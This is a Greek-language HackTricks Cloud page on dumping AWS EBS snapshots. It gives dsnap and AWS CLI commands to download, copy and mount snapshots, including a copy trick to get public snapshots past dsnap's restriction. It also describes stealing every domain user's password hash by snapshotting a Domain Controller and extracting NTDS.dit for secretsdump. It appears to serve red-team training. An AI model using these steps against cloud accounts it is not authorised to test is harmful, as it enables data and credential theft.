 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Έλεγχος ενός snapshot τοπικά
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Σημείωση** ότι το `dsnap` δεν θα σας επιτρέψει να κατεβάσετε δημόσια snapshots. Για να παρακάμψετε αυτό, μπορείτε να κάνετε ένα αντίγραφο του snapshot στον προσωπικό σας λογαριασμό και να το κατεβάσετε:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Για περισσότερες πληροφορίες σχετικά με αυτήν την τεχνική, ελέγξτε την αρχική έρευνα στο [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Έλεγχος ενός snapshot στο AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Προσαρτήστε το σε ένα EC2 VM υπό τον έλεγχό σας** (πρέπει να βρίσκεται στην ίδια περιοχή με το αντίγραφο του backup):

Βήμα 1: Δημιουργήστε έναν νέο όγκο του προτιμώμενου μεγέθους και τύπου μεταβαίνοντας στο EC2 –> Volumes.

Για να εκτελέσετε αυτήν την ενέργεια, ακολουθήστε αυτές τις εντολές:

* Δημιουργήστε έναν EBS volume για να τον προσαρτήσετε στο EC2 instance.
* Βεβαιωθείτε ότι ο EBS volume και το instance βρίσκονται στην ίδια ζώνη.

Βήμα 2: Επιλέξτε την επιλογή "attach volume" κάνοντας δεξί κλικ στον δημιουργημένο όγκο.

Βήμα 3: Επιλέξτε το instance από το πλαίσιο κειμένου instance.

Για να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την ακόλουθη εντολή:

* Προσαρτήστε τον EBS volume.

Βήμα 4: Συνδεθείτε στο EC2 instance και καταγράψτε τους διαθέσιμους δίσκους χρησιμοποιώντας την εντολή `lsblk`.

Βήμα 5: Ελέγξτε αν ο όγκος έχει δεδομένα χρησιμοποιώντας την εντολή `sudo file -s /dev/xvdf`.

Αν η έξοδος της παραπάνω εντολής δείχνει "/dev/xvdf: data", σημαίνει ότι ο όγκος είναι κενός.

Βήμα 6: Μορφοποιήστε τον όγκο στο σύστημα αρχείων ext4 χρησιμοποιώντας την εντολή `sudo mkfs -t ext4 /dev/xvdf`. Εναλλακτικά, μπορείτε επίσης να χρησιμοποιήσετε τη μορφή xfs χρησιμοποιώντας την εντολή `sudo mkfs -t xfs /dev/xvdf`. Σημειώστε ότι πρέπει να χρησιμοποιήσετε είτε ext4 είτε xfs.

Βήμα 7: Δημιουργήστε έναν κατάλογο της επιλογής σας για να προσαρτήσετε τον νέο όγκο ext4. Για παράδειγμα, μπορείτε να χρησιμοποιήσετε το όνομα "newvolume".

Για να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε την εντολή `sudo mkdir /newvolume`.

Βήμα 8: Προσαρτήστε τον όγκο στον κατάλογο "newvolume" χρησιμοποιώντας την εντολή `sudo mount /dev/xvdf /newvolume/`.

Βήμα 9: Αλλάξτε κατάλογο στον κατάλογο "newvolume" και ελέγξτε τον χώρο δίσκου για να επικυρώσετε την προσαρμογή του όγκου.

Για να εκτελέσετε αυτήν την ενέργεια, χρησιμοποιήστε τις ακόλουθες εντολές:

* Αλλάξτε κατάλογο σε `/newvolume`.
* Ελέγξτε τον χώρο δίσκου χρησιμοποιώντας την εντολή `df -h .`. Η έξοδος αυτής της εντολής θα πρέπει να δείχνει τον ελεύθερο χώρο στον κατάλογο "newvolume".

Μπορείτε να το κάνετε αυτό με το Pacu χρησιμοποιώντας το module `ebs__explore_snapshots`.

## Έλεγχος ενός snapshot στο AWS (χρησιμοποιώντας cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Οποιοσδήποτε χρήστης AWS που διαθέτει την άδεια **`EC2:CreateSnapshot`** μπορεί να κλέψει τα hashes όλων των χρηστών του domain δημιουργώντας ένα **snapshot του Domain Controller**, τοποθετώντας το σε μια instance που ελέγχει και **εξάγοντας τα αρχεία NTDS.dit και SYSTEM** registry hive για χρήση με το project secretsdump του Impacket.

Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να αυτοματοποιήσετε την επίθεση: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ή μπορείτε να χρησιμοποιήσετε μία από τις προηγούμενες τεχνικές μετά τη δημιουργία ενός snapshot.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
